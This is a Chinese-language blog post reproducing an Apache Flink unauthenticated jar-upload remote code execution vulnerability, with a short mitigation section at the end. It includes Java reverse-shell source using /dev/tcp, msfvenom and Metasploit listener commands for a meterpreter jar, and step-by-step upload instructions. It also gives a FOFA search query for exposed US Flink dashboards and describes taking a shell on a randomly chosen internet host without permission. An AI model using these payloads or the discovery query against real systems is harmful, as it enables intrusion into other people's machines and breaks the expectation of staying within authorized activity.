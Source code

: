 ```yaml
---
title: "Apache Flink任意Jar包上传导致远程代码执行"
date: 2019-11-13T11:57:15+08:00
draft: false
tags: ['远程代码执行漏洞']
categories: ['漏洞复现']
---
```

看到公众号发了预警,所以就去复现了下

<!--more-->

# 漏洞描述:

2019年11月11号，安全工程师Henry Chen披露了一个Apache Flink未授权上传jar包导致远程代码执行的漏洞。由于Apache Flink Dashboard 默认无需认证即可访问,通过上传恶意jar包并触发恶意代码执行,从而获取shell.

# 影响范围
<= 1.9.1(最新版本)

# 环境搭建:
(1)  提前安装好java(需要java8以上)

![图片](https://ae01.alicdn.com/kf/U67e5dc74affc41079fc778934023c36fO.jpg)

(2)  下载flink-1.9.1

下载地址:[https://www.apache.org/dyn/closer.lua/flink/flink-1.9.1/flink-1.9.1-bin-scala_2.11.tgz](https://www.apache.org/dyn/closer.lua/flink/flink-1.9.1/flink-1.9.1-bin-scala_2.11.tgz)

(3)  解压下载的压缩包:

```
tar -zxf flink-1.9.1-bin-scala_2.11.tgz
```
(4)  进去到解压后的目录中,来到其bin目录下:

![图片](https://ae01.alicdn.com/kf/U8b11b37eb6234fea8f229c4c0625f5c68.jpg)

(5)   启动flink:
```
./start-cluster.sh
```
(6)  浏览器访问验证(默认端口为8081):

[http://172.26.1.108:8081](http://172.26.1.108:8081)

![图片](https://ae01.alicdn.com/kf/U99519d83a539419fb84879908c4b3c6e2.jpg)

出现上图即搭建成功.

(7)  设置开机自启(这里折腾了好久,一直起不来.直接source /etc/rc.d/rc.local可以启动,但是重启后并不会启动flink,最后在一篇博客中找到了解决方法)

![图片](https://ae01.alicdn.com/kf/U164fe58019ce411f9d20e4ed69d858c2Y.jpg)

开机自启设置参考:[https://www.cnblogs.com/aaronlinux/p/6804531.html](https://www.cnblogs.com/aaronlinux/p/6804531.html)

# 漏洞复现:
## jar包制作步骤:
(1)  参考[https://klionsec.github.io/2016/09/27/revese-shell/#menu](https://klionsec.github.io/2016/09/27/revese-shell/#menu)文中给出的利用java反弹shell

![图片](https://ae01.alicdn.com/kf/U656b35ae92b940418cdd1d7f4649c417T.jpg)

记得修改ip和端口:

![图片](https://ae01.alicdn.com/kf/Udc7af3e8653447ecba8ff75fd58418e3c.jpg)

代码:

```
package shell;
public class Revs {
    /**
    * @param args
    * @throws Exception 
    */
    public static void main(String[] args) throws Exception {
        // TODO Auto-generated method stub
        Runtime r = Runtime.getRuntime();
        String cmd[]= {"/bin/bash","-c","exec 5<>/dev/tcp/192.168.1.12/9999;cat <&5 | while read line; do $line 2>&5 >&5; done"};
        Process p = r.exec(cmd);
        p.waitFor();
    }
}
```
(2)  利用eclipse将其导出为一个可执行的jar包:
a. 点击 File-->Export(导出)

![图片](https://ae01.alicdn.com/kf/U71e29ec0fdb9416eb59cd576dcacba1eI.jpg)

b.然后选择java-->Runnable JAR file

![图片](https://ae01.alicdn.com/kf/Ue70247287beb4c4ea36f73fef1c1d1e3O.jpg)

c.然后选择对应的java项目和导出路径以及导出文件名

![图片](https://ae01.alicdn.com/kf/U5573b19b2e4d4fc7a418f6cd5cca80deK.jpg)

这样就生成了一个反弹shell的jar包

## msf生成jar马:
(1)   利用msfvenom来生成一个jar马:
```
msfvenom -p java/meterpreter/reverse_tcp LHOST=172.26.1.156 LPORT=9999 W >text.jar
```
(2)  打开msf的监听模块,并监听9999端口(要与我们jar马设置的端口一致)
```
use exploit/multi/handler
set payload java/meterpreter/reverse_tcp
set LHOST 172.26.1.156
set LPORT 9999
exploit
```
(3)  上传我们生成的jar马并提交后(这部分操作参考下面的复现),可以看到我们成功接收到shell:

![图片](https://ae01.alicdn.com/kf/U338594f3162f4cdb969acb78d45fe4bau.jpg)

## 本地复现:
(1)  访问目标:

![图片](https://ae01.alicdn.com/kf/U8c47f70561ed492583d979eb63200165N.jpg)

(2)  点击Submit New job,打开上传jar包的页面:

![图片](https://ae01.alicdn.com/kf/Ubcff626a9ca144ef83ddfad56485e5116.jpg)

(3)  点击Add New选择我们制作好的jar包:

![图片](https://ae01.alicdn.com/kf/Udc26e0c49a1f485b87a0eae0e88488a8d.jpg)

(4)  我们的机器上监听好端口(我们制作的jar包是直接反弹shell的)


(5)  点击我们刚刚上传的jar包:

![图片](https://ae01.alicdn.com/kf/Ub00fe9f70aeb4b65bd3aeaef3974acf01.jpg)

(6)  然后点击Submit即可,可以看到我们已经成功接收到了shell:

![图片](https://ae01.alicdn.com/kf/Uc38aed7456904c5c9148068ebd4020feV.jpg)

## 互联网站点:
fofa关键词:

"apache-flink-dashboard" && country="US"

![图片](https://ae01.alicdn.com/kf/U441dbddb36db4fee953936554ca4560ej.jpg)

(1)   随便找一个目标:

![图片](https://ae01.alicdn.com/kf/U0c7a43609a9642e5ae9318049d67c166v.jpg)

(2)  点击Submit new Job,可以看到其可以允许我们上传jar包

![图片](https://ae01.alicdn.com/kf/Ud39cf6e68bb04b3980551774c63fa583D.jpg)

(3)  利用flink上传jar包的功能将我们的jar包上传:

![图片](https://ae01.alicdn.com/kf/Ud3a911eaea7d4fb8b3ca8026982f6af5t.jpg)

(4)  上传后,我们在我们的vps上监听好端口
(5)  然后回到浏览器,选中我们刚刚上传的jar包,然后点击Submitting提交,可以看到我们的vps已经成功接收到了shell

![图片](https://ae01.alicdn.com/kf/U75e79141cc714411ae0045990b8f1239y.jpg)

# 漏洞修复:
建议设置防火墙策略，仅允许白名单ip访问 apache flink服务，并在Web代理（如apache httpd）中增加对该服务的digest认证。

时刻关注官网,等待新版本或补丁更新

# 参考链接:
[flink](https://ci.apache.org/projects/flink/flink-docs-release-1.9/getting-started/tutorials/local_setup.html)[安装](https://ci.apache.org/projects/flink/flink-docs-release-1.9/getting-started/tutorials/local_setup.html)

[https://s.tencent.com/research/bsafe/841.html](https://s.tencent.com/research/bsafe/841.html)

[https://mp.weixin.qq.com/s?src=11&timestamp=1573607236&ver=1971&signature=roySoRWnz5MgPLuikntTt3rx7rWFdFBOOQfI5rmaOe-d1LWj7NEJxkVBvzfjKtpuihSaRk*EVBoHJ5Roh48qdTm3v2jbU8EWAVAs8i3ylp3OOskx7IUXnKXqDU5tcUfn&new=1](https://mp.weixin.qq.com/s?src=11&timestamp=1573607236&ver=1971&signature=roySoRWnz5MgPLuikntTt3rx7rWFdFBOOQfI5rmaOe-d1LWj7NEJxkVBvzfjKtpuihSaRk*EVBoHJ5Roh48qdTm3v2jbU8EWAVAs8i3ylp3OOskx7IUXnKXqDU5tcUfn&new=1)

[https://klionsec.github.io/2016/09/27/revese-shell/#menu](https://klionsec.github.io/2016/09/27/revese-shell/#menu)

